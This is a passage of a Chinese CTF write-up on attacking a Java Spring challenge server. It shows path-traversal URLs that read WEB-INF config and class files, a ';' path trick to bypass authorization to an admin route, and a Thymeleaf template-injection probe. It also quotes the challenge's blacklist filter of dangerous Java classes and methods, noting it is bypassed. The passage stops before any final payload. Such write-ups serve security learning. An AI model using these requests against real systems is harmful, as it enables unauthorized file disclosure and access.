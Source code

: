    http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/web/img?img=WEB-INF/classes/spring-web.xml

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xmlns:context="http://www.springframework.org/schema/context"
   xmlns:mvc="http://www.springframework.org/schema/mvc"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context.xsd http://www.springframework.org/schema/mvc http://www.springframework.org/schema/mvc/spring-mvc.xsd">
     <!-- 自动扫描 Controller 包 -->
     <context:component-scan base-package="com.ctf.controller"/>
     <context:component-scan base-package="com.ctf.repository"/>
     <context:component-scan base-package="com.ctf.service"/>
     <!-- 注解配置和乱码处理 -->
     <mvc:annotation-driven>
       <mvc:message-converters>
         <bean class="org.springframework.http.converter.StringHttpMessageConverter">
           <constructor-arg value="UTF-8"/>
         </bean>
       </mvc:message-converters>
     </mvc:annotation-driven>
     <mvc:default-servlet-handler/>
   </beans>
   ```

   猜测他们的Auth，Login等对应的Controller类名
   http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/web/img?img=WEB-INF/classes/com/ctf/controller/IndexController.class

   

   

   http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/web/img?img=WEB-INF/classes/com/ctf/controller/AuthController.class

   拿到Admin的路由：`http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/;/web/68759c96217a32d5b368ad2965f625ef/index`，同样权限绕过
   发现提示Render，盲猜又是SSTI

   检测JAVA的SSTI发现`[[${7*7}]]`成功执行，这是一个Thymeleaf 模板注入

进入下一步SSTI

ctfFilter过滤了：

```java
private static String[] blacklists = { "java.+lang", "Runtime|Process|byte|OutputStream|session|\"|'", "exec.*\\(", "write|read", "invoke.*\\(", "\\.forName.*\\(", "lookup.*\\(", "\\.getMethod.*\\(", "javax.+script.+ScriptEngineManager", "com.+fasterxml", "org.+apache", "org.+hibernate", "org.+thymeleaf", "javassist", "javax\\.", "eval.*\\(", "\\.getClass\\(", "org.+springframework", "javax.+el", "java.+io" };
```

利用Thymeleaf 特性绕过

